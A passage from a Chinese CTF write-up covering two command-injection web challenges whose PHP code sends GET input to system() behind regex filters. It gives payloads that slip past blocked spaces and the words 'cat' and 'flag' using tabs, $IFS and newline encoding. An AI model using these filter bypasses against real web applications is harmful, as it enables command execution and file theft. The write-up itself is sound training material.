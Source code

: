 过滤 `; `、 `cat` 、`flag` 

结合前面的，直接：

```
?c=tac f*%0a
```

## web45~>/dev/null多过滤空格

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

多过滤了个空格。

payload:

```php
?c=tac%09f*%0a

?c=tac$IFS\f*%0A
# 这里 f 前面不加 反斜杠的话就出不来，可能是会被前面的解析到一起吧。
?c=more${IFS}f*%0a
```

IFS: https://www.xuebuyuan.com/3197835.html

## web46~多过滤数字 $ *

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

多过滤了数字、$ 、*   

意味着不能用shell中变量了。
